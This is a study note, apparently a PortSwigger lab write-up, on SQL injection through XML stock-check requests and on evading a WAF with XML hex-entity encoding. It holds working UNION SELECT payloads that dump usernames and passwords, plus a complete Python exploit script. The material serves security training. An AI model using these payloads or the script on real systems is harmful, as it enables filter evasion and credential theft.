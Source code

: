 # SQLi in different contexts
---
- In all of the labs so far, you've used the query string to inject your malicious SQL payload. 
- However, it's **important** to note that you can _perform SQLi attacks_ using _any controllable input that is processed as a SQL query_ by the application. 
- **For example**, some websites take input in _JSON_ or _XML_ format and use this to query the database.

- _These different formats_ may even provide alternative ways for you to [obfuscate attacks](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-xml-encoding) that are _otherwise blocked due to WAFs_ and other defense mechanisms.
- Weak implementations often just look for common SQLi keywords within the request.
- So you may be able to _bypass these filters_ by simply _encoding_ or _escaping characters_ in the prohibited keywords.

For example, the following XML-based SQLi uses an XML escape sequence to encode the `s` character in `SELECT`:
```xml
<stockCheck> 
	<productId> 
		123 
	</productId> 
	<storeId> 
		999 &#x53;ELECT * FROM information_schema.tables 
	</storeId> 
</stockCheck>
```
This will be decoded server-side before being passed to the SQL interpreter.

# Lab: SQL injection with filter bypass via XML encoding
---
1. Observe that the stock check feature sends the `productId` and `storeId` to the application in XML format.
2. Send the `POST /product/stock` request to Burp Repeater.
3. In Burp Repeater, probe the `storeId` to see whether your input is evaluated. 
    - For example, try replacing the ID with mathematical expressions that evaluate to other potential IDs, for example:
    - `<storeId>1+1</storeId>`
4. Observe that your input appears to be evaluated by the application, returning the stock for different stores.
5. Try determining the number of columns returned by the original query by appending a `UNION SELECT` statement to the original store ID:  
    - `<storeId>1 UNION SELECT NULL</storeId>`
6. Observe that your request has been blocked due to being flagged as a potential attack.
7. As you're _injecting into XML_, try _obfuscating_ your payload using [XML entities](https://portswigger.net/web-security/xxe/xml-entities). 
	-  One way to do this is using the [Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) extension. 
	- Just highlight your input, right-click, then select **Extensions > Hackvertor > Encode > dec_entities/hex_entities**.
8. Resend the request and notice that you now receive a normal response from the application. 
	- This suggests that you have _successfully bypassed the WAF_.
9. Pick up where you left off, and deduce that the query returns a single column. When you try to return more than one column, the application returns `0 units`, implying an error.
10. As you can only return one column, you need to concatenate the returned usernames and passwords, for example:
    - `<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>`
11. Send this query and observe that you've successfully fetched the usernames and passwords from the database, separated by a `~` character.
12. Use the administrator's credentials to log in and solve the lab.

```python
#!/usr/bin/env python3
# SQL injection with filter bypass via XML encoding
import requests
import sys

# Debugging
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
p = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

def list_to_string(string):
    str1 = ""
    for ele in string:
        str1 += ele
    return str1

def html_entity(payload):
    string = list()
    for i in payload:
        enc = f"&#x{format(ord(i), 'x')};"
        string.append(enc)
    payload = list_to_string(string)
    return payload

def send_payload(url, payload):
    param = "/product/stock"
    xml = f'<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1{payload}</storeId></stockCheck>'
    req = requests.post(url+param, data=xml, verify=False, proxies=p)
    return req.text

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        payload = sys.argv[2].strip()
        
        x = html_entity(payload)
        print(send_payload(url, x))

    except IndexError:
        print("[-] Usage: {} <url> <payload>".format(sys.argv[0]))
        print("[-] Example: {} http://example.com 'ORDER BY 1'".format(sys.argv[0]))
        sys.exit(1)
```